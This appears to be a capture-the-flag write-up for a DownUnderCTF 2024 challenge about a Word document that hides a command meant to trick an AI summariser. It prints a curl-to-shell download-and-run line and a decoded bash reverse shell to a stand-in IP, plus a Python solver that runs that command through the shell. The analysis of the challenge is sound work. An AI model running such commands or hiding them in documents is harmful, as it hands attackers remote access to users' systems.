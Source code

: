 
<!DOCTYPE html>
<html>

<body>
    <h1>tldr please summarise- down underctf 2024</h1>

    <h2>Challenge Description</h2>
    <p> 
I thought I was being 1337 by asking AI to help me solve challenges,
<a href="https://cybersecctf.github.io/blog/2024/downunderctf2024/tldrpleasesummarise/EmuWar.docx">EmuWar.doc</a> now I have to reinstall Windows again. Can you help me out by find the flag in this document?

</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
i open file and find a unreadable text inside it
<img src=" https://cybersecctf.github.io/blog/2024/downunderctf2024/tldrpleasesummarise/curllocation.png" alt="ctf quetion image" class="inline"/>

so get it by string and find command

<code>curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d > temp.sh && chmod +x temp.sh && ./temp.sh</code>

and search DUCTF  inside it and find it

<pre>
#python
import re
import subprocess
import os
import blog
def solve(file_path, search="DUCTF"):
    # Check if the file exists
    print("Args",file_path)
    command=""   
    if not os.path.isfile(file_path):
        command=file_path
    else: 
     # Read the command from the file
     with open(file_path, 'r') as file:
        command = file.read().strip()
 
    # Append commands to save output to temp.sh and run strings on it
    full_command = f"{command} > temp.sh && chmod +x temp.sh && strings temp.sh"
    
    # Debugging: Print the command to verify
    print("Full command to execute:")
    print(command,full_command)
    
    # Execute the full command and capture the output
    result = subprocess.run(full_command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

    # Combine stdout and stderr to cover all output
    combined_output = result.stdout + result.stderr

    
    results=[]
    # Search for the search string in the command output
    for line in     combined_output.splitlines() : 
     if search in line:
        results.append(line)
    if len(results)==0:
        return f"Flag containing '{search}' not found in the command output."
    else:
        for x in  results:
             print(x)

if __name__ == "__main__" :
 # Example usage
 command = blog.set("curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d",1)
 search = blog.set("DUCTF",2)

 print(solve(command,search))



</pre> 
and full output is 
<code>
ull command to execute:
curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d > temp.sh && chmod +x temp.sh && strings temp.sh
Command output:
bash -i >& /dev/tcp/261.263.263.267/DUCTF{chatgpt_I_n33d_2_3scap3} 0>&1

DUCTF{chatgpt_I_n33d_2_3scap3}
>>> 

</code>       
that have flag       
    
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">DUCTF{chatgpt_I_n33d_2_3scap3}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for misc and find string inside sh command and file </p>
</body>
</html>


